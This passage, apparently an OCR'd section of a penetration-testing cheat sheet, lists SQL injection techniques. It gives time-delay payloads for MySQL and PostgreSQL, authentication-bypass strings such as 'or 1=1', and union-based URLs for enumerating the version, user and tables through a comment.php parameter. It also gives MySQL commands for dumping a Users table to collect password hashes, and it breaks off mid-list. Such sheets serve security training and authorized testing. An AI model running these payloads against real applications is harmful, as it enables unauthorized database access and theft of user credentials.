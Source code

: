             *   _Original Query_

                `SELECT * FROM products WHERE name='Test';`

            *   _Injection Value_

                `'-SLEEP(30); #`

            *   _Resulting Query_

                `SELECT * FROM products WHERE name='Test'-SLEEP(30); #`

        *   **PostGreSQL Injection Time Delay Detection:** Add a 30 second delay to an PostGreSQL Query

            *   _Original Query_

                `SELECT * FROM products WHERE name='Test';`

            *   _Injection Value_

                `'; SELECT pg_sleep(30); --`

            *   _Resulting Query_

                `SELECT * FROM products WHERE name='Test'; SELECT pg_sleep(30); --`

    *   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and password

              mysql -u root -p -h $ip
              use "Users"  
              show tables;  
              select \* from users;

    *   Authentication Bypass

              name='wronguser' or 1=1;  
              name='wronguser' or 1=1 LIMIT 1;

    *   Enumerating the Database

        `http://192.168.11.35/comment.php?id=738)'`

        Verbose error message?

        `http://$ip/comment.php?id=738 order by 1`

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6`

        Determine MySQL Version:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6`

        Current user being used for the database connection:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6`

        Enumerate database tables and column structures

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables`

        Target the users table in the database
